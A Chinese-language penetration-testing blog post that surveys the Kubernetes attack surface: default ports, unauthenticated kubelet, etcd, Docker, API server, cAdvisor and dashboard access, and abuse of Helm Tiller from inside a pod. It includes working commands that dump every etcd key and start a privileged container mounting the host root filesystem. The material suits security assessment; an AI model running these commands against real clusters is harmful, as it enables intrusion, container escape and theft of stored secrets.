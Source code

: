 ```yaml
---
title: K8S攻击面梳理
author: 404tk
date: 2021-10-24
category: Kubernetes
layout: post
---
```


如何识别K8S
-------------

通过一些常见的开放服务端口，可以判断是否跑了K8S服务，端口列表如下：

#### Control-plane Node(s)

|    Port    |      Purpose       |            Note            |
| :--------: | :----------------: | :------------------------: |
|  443/TCP   |  Kube API Server   |    Kubernetes API Port     |
|  6443/TCP  |  Kube API Server   |    Kubernetes API Port     |
|  8443/TCP  |  Kube API Server   |     Minikube API Port      |
|  8080/TCP  |  Kube API Server   |   Insecure K8s API Port    |
|  2379/TCP  | etcd Client Server |        etcd Storage        |
|  2380/TCP  | etcd Client Server |        etcd Storage        |
|  6666/TCP  | etcd Client Server |        etcd Storage        |
|  4194/TCP  |      cAdvisor      |     Container Matrics      |
| 10250/TCP  |    Kubelet API     |                            |
| 10251/TCP  |   Kube-scheduler   |                            |
| 10252/TCP  | controller-manager |                            |
|  9099/TCP  |    Calico-felix    | Health check Calico server |
| 6782-4/TCP |       Weave        |   Metrics and endpoints    |

#### Worker Node(s)

|      Port       |     Purpose      | Note |
| :-------------: | :--------------: | :--: |
|      10250      |   Kubelet API    |      |
| 30000-32767/TCP | NodePort Service |      |

外部视角如何攻击K8S
-------------

#### Kubelet未授权
`10250/tcp - kubelet (kubelet exploit)`  
验证未授权，可以尝试访问以下路径：  
```
/pods
/runningpods
/containerLogs
```

其次是默认10255端口，只读权限：  
`10255/tcp - kubelet port (read-only)`  
尝试通过以下路径获取信息：  
```
/stats
/metrics
/pods
```

#### etcd未授权
`2379/tcp - etcd (see it on other ports though)`  
可通过以下路径判断未授权：
```
/version
/v2/keys
```
Etcd存放了大量敏感配置信息，从 [https://github.com/etcd-io/etcd/releases/](https://github.com/etcd-io/etcd/releases/) 下载得到`etcdctl`。
```
ETCDCTL_API=3 ./etcdctl --endpoints=http://IP:2379/ get / --prefix --keys-only | sort | uniq | xargs -I{} sh -c 'ETCDCTL_API=3 ./etcdctl --insecure-transport=false --insecure-skip-tls-verify --endpoints=http://IP:2379 get {} >> output.data && echo "" >> output.data'
```

#### Docker Remote API未授权
`2375/tcp docker`  
通过访问`/info`路径查看响应中是否含有关键词:`"kind": "APIResourceList"`。  
```
docker -H tcp://IP:2375 ps
docker -H tcp://IP:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
```

#### Docker Registry v2 API未授权
`8080/tcp Docker Registry (API: 2.0)`  
可通过访问`/v2/_catalog`路径判断未授权。  

#### Kubernetes API Server未授权
`443/6443 - Kube API Server`  
通过访问`/api/v1`路径查看响应中是否含有`ContainersRunning`、`DockerRootDir`等关键词。
```
/api
/api/v1
/apis
/apis/
/apis/apps
/apis/apps/v1
/apis/autoscaling
/apis/autoscaling/v1
/apis/batch
/apis/batch/v1
...
```

#### cAdvisor未授权
`4194/tcp - cAdvisor`  
尝试访问`/api/v2.0/spec?recursive=true`以JSON格式输出在主机上运行的所有容器的规范。

#### 攻击dashboard
`30000 - dashboard`  
默认情况下, dashboard是需要进行鉴权操作的,当用户开启了`enable-skip-login`时可以在登录界面点击`Skip`跳过登录进入dashboard。

如何利用正在运行的Pod
-------------

获取`shell`后，很容易确认这是个在`Kubernetes`上运行的容器：
```
ls -l /.dockerenv
env | grep -i kube
```

#### 攻击Helm
`44134/tcp - Helmtiller, weave, calico`  
`Helm`与`Kubernetes`集群通信的方式是通过`gRPC`到`Tiller-deploy pod`。  
然后 pod 使用其服务帐户令牌与 Kubernetes API 对话。  
当Helm从客户端运行命令时，在后台会打开一个端口转发到集群中以直接与`Tiller-deploy`服务对话，该服务始终指向`44134/TCP`上的`Tiller-deploy pod`。  
```
export HVER=v2.11.0
curl -L "https://storage.googleapis.com/kubernetes-helm/helm-${HVER}-linux-amd64.tar.gz" | tar xz --strip-components=1 -C /tmp linux-amd64/helm
/tmp/helm --host tiller-deploy.kube-system.svc.cluster.local:44134 ls
```

K8S安全评估工具
-------------

+ [kube-hunter](https://github.com/aquasecurity/kube-hunter)
+ [kubeletctl](https://github.com/cyberark/kubeletctl)
+ [kubestriker](https://github.com/vchinnipilli/kubestriker)
+ [KubiScan](https://github.com/cyberark/KubiScan)
+ [kube-unauth-exec-hunter](https://github.com/cedowens/kube-unauth-exec-hunter)